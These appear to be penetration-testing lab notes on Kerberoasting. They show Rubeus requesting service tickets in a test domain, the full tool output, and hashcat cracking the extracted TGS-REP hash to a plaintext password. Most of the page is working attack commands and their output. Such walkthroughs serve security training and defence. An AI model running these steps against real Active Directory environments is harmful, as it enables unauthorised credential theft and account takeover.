 ## Kerberoasting (Stealing tickets and retrieve hashes - From Windows or impacket-GetUserSPNs)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast

To perform Kerberoasting, we'll use Rubeus again. We specify the **kerberoast** command to launch this attack technique. In addition, we'll provide **hashes.kerberoast** as an argument for **/outfile** to store the resulting TGS-REP hash in. Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.

```shell
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : corp.com
[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : iis_service
[*] DistinguishedName      : CN=iis_service,CN=Users,DC=corp,DC=com
[*] ServicePrincipalName   : HTTP/web04.corp.com:80
[*] PwdLastSet             : 9/7/2022 5:38:43 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash written to C:\Tools\hashes.kerberoast
```

The output shows that Rubeus identified one user account vulnerable to Kerberoasting and wrote the hash to an output file. Now, let's copy **hashes.kerberoast** to our Kali machine. We can then review the Hashcat help for the correct mode to crack a TGS-REP hash.

```bash
kali@kali:~$ cat hashes.kerberoast
$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940AD9DCF5DD5CD8E91A86D4BA0396DB$F57066A4F4F8FF5D70DF39B0C98ED7948A5DB08D689B92446E600B49FD502DEA39A8ED3B0B766E5CD40410464263557BC0E4025BFB92D89BA5C12C26C72232905DEC4D060D3C8988945419AB4A7E7ADEC407D22BF6871D...
...

kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
d8a2033fc64622eaef566f4740659d2e520b17bd383a47da74b54048397a4aaf06093b95322ddb81ce63694e0d1a8fa974f4df071c461b65cbb3dbcaec65478798bc909bc94:Strawberry1
```
